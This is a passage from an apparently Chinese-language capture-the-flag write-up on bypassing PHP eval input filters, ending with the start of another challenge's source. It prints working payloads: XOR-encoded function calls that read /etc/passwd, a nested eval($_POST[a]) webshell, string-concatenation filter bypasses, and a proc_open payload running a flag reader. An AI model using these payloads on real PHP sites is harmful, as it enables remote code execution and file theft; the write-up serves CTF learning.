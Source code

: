 接着payload2

```
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}(%27/etc/passwd%27);&%ff=show_source&thisfile=/var
```



可是读不了`/flag`估计是给了权限让我们无法访问。

我们会发现一个问题**由于eval()函数存在一个特性，它只执行一次**，而**${}**中的变量为可变变量，所以如果我们向上面那样写shell的话，就不得不向上面那样构造phpinfo(),show_source(),这样的函数，那这样的话，绝对无法getshell。

最后修改payload为

```
$b=${%a0%af%b0%ac%ab^%ff%ff%ff%ff%ff}[a];eval($b);&thisfile=/var
```

我们多加了一个`eval()`，将payload嵌套在其中，这样子就能够构造eval($_POST[a]);最后getshell。

**另外还有两个姿势用来绕过**

**其一：使用字符串拼接**

```php
payload1:thisfile=/var&input=eval('php'.'info();');
```

```php
payload2:thisfile=/var&input=$b=p.h.p.i.n.f.o;$b();
```

**其二：使用os命令**

这道题中，我们查看phpinfo()，会发现这里的`proc_open()`没有被过滤，那这个函数就可以用。

参考文章：[https://www.php.net/manual/zh/function.proc-open.php](https://www.php.net/manual/zh/function.proc-open.php)



这里附上张师傅的payload，tql.....

```php
input=$descr=array(0=>array('p'.'ipe','r'),1=>array('p'.'ipe','w'),2=>array('p'.'ipe','w
'));$pxpes=array();$process=eval('return
proc'.$thisfille[8].'open("/readFlag",$descr,$pxpes);');eval('echo(s'.'t'.'r'.'e'.'a'.'m
'.$thisfille[8].'g'.'e'.'t'.$thisfille[8].'c'.'o'.'n'.'t'.'e'.'n'.'t'.'s($pxpes[1]));');
&thisfile=/var
```





### InCTF的php1.5

```php
<?php

$input = $_GET['input'];

function check(){
  global $input;
  foreach (get_defined_functions()['internal'] as $blacklisted) {
      if (preg_match ('/' . $blacklisted . '/im', $input)) {
          echo "Your input is blacklisted" . "<br>";
          return true;
          break;
      }
  }
  $blacklist = "exit|die|eval|\[|\]|\\\|\*|`|-|\+|~|\{|\}|\"|\'";
  if(preg_match("/$blacklist/i", $input)){
    echo "Do you really you need that?" . "<br>";
    return true;
```